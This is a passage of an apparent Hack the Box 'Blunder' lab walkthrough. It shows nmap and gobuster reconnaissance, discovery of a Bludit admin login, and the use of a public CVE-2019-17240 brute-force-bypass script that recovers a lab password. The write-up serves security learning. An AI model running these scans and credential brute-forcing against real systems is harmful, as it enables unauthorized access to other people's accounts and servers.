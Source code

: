 # Hack the Box - Blunder

# Reconnaisance

## NMAP
```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.191 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.191
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE  SERVICE
21/tcp closed ftp
80/tcp open   http
Device type: general purpose|storage-misc|WAP
Running (JUST GUESSING): Linux 5.X|4.X|2.6.X|3.X (98%), HP embedded (91%), Ubiquiti AirOS 5.X (89%), Ubiquiti embedded (89%)
OS CPE: cpe:/o:linux:linux_kernel:5.0 cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6.32 cpe:/o:linux:linux_kernel:3 cpe:/o:ubnt:airos:5.2.6 cpe:/h:ubnt:airmax_nanostation
Aggressive OS guesses: Linux 5.0 (98%), Linux 5.4 (93%), Linux 5.0 - 5.4 (93%), HP P2000 G3 NAS device (91%), Linux 4.15 - 5.6 (91%), Linux 5.3 - 5.4 (90%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Linux 5.1 (90%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%)
No exact OS matches for host (test conditions non-ideal).

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.49 seconds
```

```CSS
▶ nmap -sC -sV -p 21,80 10.10.10.191 -oN services.nmap

Nmap scan report for 10.10.10.191
Host is up (0.18s latency).

PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Blunder
|_http-title: Blunder | A blunder of interesting facts

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.23 seconds
```

---

## HTTP 80
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f70628d0-2b79-45bb-af4e-e683b063aa20)

---

## Content Discovery

```CSS
▶ gobuster dir --url http://10.10.10.191 --wordlist /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --threads 20
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4075b582-c7ff-44a4-8767-fe978f218cc9)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ae1ef991-a735-481f-ac4e-fbac773d364d)
  - `Bludit` admin login.

```CSS
▶ gobuster dir --url http://10.10.10.191 --wordlist /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --threads 20
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c1979746-2805-426a-9824-c5f46d09a09b)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/3fe67c23-2588-4b30-82d4-0038d697ee17)
  - Probably the CMS is running an older version.
  - Potential username `fergus`.

---

## Brute-Force Credentials
  - A potential username `fergus` is found. Attempt to brute-force the password of this user for the CMS.

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5486ce91-06ec-466f-b912-f9d4066152f0)
  - IP address gets banned after a few tries to brute-force the password.

### Brute-Force Mitigation Bypass
  - Search for bypassing brute-force protection.
```CSS
▶ searchsploit bludit
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c7a9919b-9581-433c-b2e9-8670b9fb257c)

  - Google search.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d7d3f417-9f2d-42ab-910e-7430ef76d1fb)
  - Bludit Brute-force Mitigation Bypass (CVE-2019-17240)
  - https://github.com/ColdFusionX/CVE-2019-17240_Bludit-BF-Bypass
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/1b80229c-69f6-4496-975e-6bf906725572)

```CSS
▶ python exploit.py -l http://10.10.10.191/admin/login.php -u users.txt -p passwords.txt
```
  - Valid password `RolandDeschain` found for the user `fergus`.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8795423e-82bb-40fe-b9d5-c0caeb7668de)

  - Login successful to Dashboard.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/6fb1a617-4f08-4d12-a236-b860b18cbea5)

  - Search for exploits.
```CSS
▶ searchsploit bludit
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/b6560fa1-49b2-4409-b20f-d6d059c0de38)

  - Steps
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/7c56455e-b310-46bb-becb-44d583119589)

